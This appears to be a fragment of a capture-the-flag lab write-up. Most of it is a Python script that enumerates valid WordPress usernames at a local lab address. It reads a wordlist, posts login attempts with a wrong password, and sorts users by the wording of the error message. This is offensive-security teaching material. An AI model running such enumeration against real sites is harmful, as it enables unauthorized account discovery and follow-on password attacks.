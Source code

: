 >Error: Invalid username

- Run the script to get the correct username/usernames

>The script is designed to identify valid usernames on a WordPress site by attempting to log in with a known invalid password. It uses the requests library to send HTTP POST requests to the WordPress login page and checks the response to determine if the username is valid or not.

```python linenums="1"

import requests

# Define the target URL and headers
url = "http://192.168.1.226/wp-login.php"

# Read the dictionary file
with open("fsocity_sorted_unique.dic", "r") as file:
    words = [line.strip() for line in file]

# Function to perform the login attempt
def attempt_login(session, username, password):
    payload = {
        'log': username,
        'pwd': password,
        'wp-submit': 'Log In',
        'redirect_to': '/wp-admin/',
        'testcookie': '1'
    }
    response = session.post(url, data=payload)
    return response

# Start a session
session = requests.Session()

valid_usernames = []

# Iterate over each word to check for valid usernames
for word in words:
    try:
        response = attempt_login(session, word, 'invalidpassword')
        response_text = response.text

        if "Invalid username" in response_text:
            print(f"Invalid username: {word}")
        elif "The password you entered for the username" in response_text:
            print(f"Valid username found: {word}")
            valid_usernames.append(word)
        else:
            print(f"Unexpected response for username: {word}")
            print(response_text[:200])  # Print the first 200 characters of the response for debugging
    except Exception as e:
        print(f"Error processing username: {word}")
        print(f"Exception: {str(e)}")

# Save valid usernames to a file
with open("valid_usernames.txt", "w") as file:
    for username in valid_usernames:
        file.write(username + "\n")

print("Valid usernames saved to valid_usernames.txt")


```
>The script prints a message indicating that the valid usernames have been saved to the file.
